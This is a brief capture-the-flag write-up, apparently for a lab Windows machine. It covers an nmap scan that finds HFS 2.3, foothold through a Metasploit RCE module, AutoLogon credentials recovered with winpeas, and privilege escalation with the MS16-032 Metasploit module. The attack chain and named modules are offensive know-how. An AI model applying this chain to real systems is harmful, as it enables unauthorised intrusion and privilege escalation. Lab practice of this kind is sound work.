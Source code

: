 #Metasploit 

# NMAP

```shell
# Nmap 7.94SVN scan initiated Fri Sep  6 09:22:21 2024 as: nmap -sC -sV -oA nmap/opt -T5 -p- --min-rate=1000 10.129.7.141
Nmap scan report for 10.129.7.141
Host is up (0.14s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep  6 09:24:30 2024 -- 1 IP address (1 host up) scanned in 129.32 seconds

```




> http server has [RCE vulnerability](https://www.exploit-db.com/exploits/39161), Used metasploit to gain Foothold 


# Foothold
> found credentials using winpeas

```powershell
 Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

```

> Used `post/multi/recon/local_exploit_suggester` to find privesc exploit on the machine

```shell
1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
 4   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.

```

> the tool found 5 exploit, since we just need to escalate our privileges, I used the fourth payload `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

> Gained root/admin access, got the flag 